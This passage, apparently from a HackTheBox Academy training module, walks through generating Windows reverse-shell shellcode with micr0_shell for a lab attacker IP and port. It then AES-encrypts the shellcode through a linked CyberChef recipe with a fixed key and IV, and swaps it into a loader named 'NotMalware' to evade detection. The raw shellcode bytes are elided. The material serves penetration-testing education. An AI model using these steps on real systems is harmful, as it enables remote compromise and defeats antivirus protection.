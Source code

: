 As an example, let's use [micr0\_shell](https://github.com/senzee1984/micr0_shell). From the project description we can see that this program generates `"reverse shell shellcode for Windows x64"`.

![image](https://academy.hackthebox.com/storage/modules/254/2/50.png)

We can generate shellcode with our `IP` and `port` with the following command:

```powershell
PS C:\Tools\micr0_shell> python.exe .\micr0_shell.py -i [IP] -p 8080 -l csharp

███╗░░░███╗██╗░█████╗░██████╗░░█████╗░  ░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
████╗░████║██║██╔══██╗██╔══██╗██╔══██╗  ██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██╔████╔██║██║██║░░╚═╝██████╔╝██║░░██║  ╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║╚██╔╝██║██║██║░░██╗██╔══██╗██║░░██║  ░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░╚═╝░██║██║╚█████╔╝██║░░██║╚█████╔╝  ██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░░░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░  ╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/micr0_shell
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255

[+]Shellcode Settings:
******** IP Address: 10.10.14.104
******** Listening Port: 8080
******** Language of desired shellcode runner: csharp
******** Shellcode array variable name: buf
******** Shell: cmd
******** Shellcode Execution: false
******** Save Shellcode to file: false

[+]Payload size: 476 bytes

[+]Shellcode format for C#

byte[] buf= new byte[476] {
<SNIP>
};

```

Afterward, we will copy paste the shellcode output into the [AES-encryption CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')) from before to get the new encrypted payload we will use in place of the `Meterpreter` shellcode.

![image](https://academy.hackthebox.com/storage/modules/254/2/51.png)

Inside `NotMalware`, we can replace the `base64` string with this new one and recompile the program.
